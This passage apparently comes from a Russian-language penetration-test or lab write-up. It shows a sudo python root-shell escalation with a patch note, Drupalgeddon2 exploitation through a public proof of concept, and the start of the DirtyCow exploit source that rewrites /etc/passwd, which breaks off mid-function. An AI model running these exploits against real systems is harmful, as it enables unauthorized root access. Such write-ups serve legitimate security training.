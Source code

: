 Эксплуатируем:
```bash=
sudo python
import os
os.system(“/bin/bash”)
```
Получаем **root** доступ.
**Patch**:
Исправление misconfig: запретить выполнение **/usr/bin/python** с привилегиями sudo без пароля.

---

### 10.20.2.11
На 80 порту висит веб сервис. С помощью утилиты whatweb узнаем, что сайт написан на Drupal7. Эта версия имеет CVE-2018-7600. Используя poc (https://github.com/dreadlocked/Drupalgeddon2) получаем доступ на сервер под пользователем www-data.

Получаем **root** доступ.
Смотрим версию ядра на машине `uname -a` и понимаем, что оно старое -> уязвимо для CVE-2016-5195(DirtyCow)
```c=
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
```